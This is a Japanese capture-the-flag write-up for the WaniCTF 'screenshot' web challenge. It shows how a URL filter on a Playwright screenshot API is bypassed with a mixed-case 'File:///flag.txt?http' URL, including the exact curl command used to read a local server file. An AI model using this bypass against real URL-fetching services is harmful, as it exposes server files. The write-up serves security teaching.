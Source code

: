 # screenshot:Web:200pts
好きなウェブサイトのスクリーンショットを撮影してくれるアプリです。  
An application that takes screenshots of your favorite websites.  
[https://screenshot-web.wanictf.org](https://screenshot-web.wanictf.org/)  

[web-screenshot.zip](web-screenshot.zip)  

# Solution
よくあるスクリーンショットアプリだ。  
![site.png](site/site.png)  
URLを指定し、ボタンを押すとサイトの画像が返ってくる。  
URLは`https://screenshot-web.wanictf.org/api/screenshot?url=https://www.example.com/`であった。  
配布されたDockerfileより、フラグは`/flag.txt`にあるとわかる。  
```Dockerfile
FROM node:18.12.1-bullseye-slim

WORKDIR /app

# Install dependencies
COPY ./package.json ./package-lock.json /app/
RUN PLAYWRIGHT_SKIP_BROWSER_DOWNLOAD=1 npm ci
RUN npx playwright install --with-deps chromium

COPY . /app
COPY ./flag.txt /flag.txt

ENTRYPOINT ["node", "src/index.js"]
```
`file:///flag.txt`で終わりそうだが、おそらく何らかのフィルタがかかっているようなのでindex.jsを読む。  
```js
~~~
      if (!req.query.url.includes("http") || req.query.url.includes("file")) {
        res.status(400).send("Bad Request");
        return;
      }
~~~
```
`http`が入っており、`file`が入っていないことが求められている。  
`file`は`File`とすれば突破できる。  
問題は`http`だが、こちらもfile schemeにはクエリが使えるので、`?http`などを付加してやればよい。  
以下の通りに`/flag.txt`を撮る。  
```bash
$ curl 'https://screenshot-web.wanictf.org/api/screenshot?url=File:///flag.txt?http' -o flag.png
```
![flag.png](flag.png)  
flagがスクリーンショットできた(Leetじゃないところがいい)。  

## FLAG{beware_of_parameter_type_confusion!}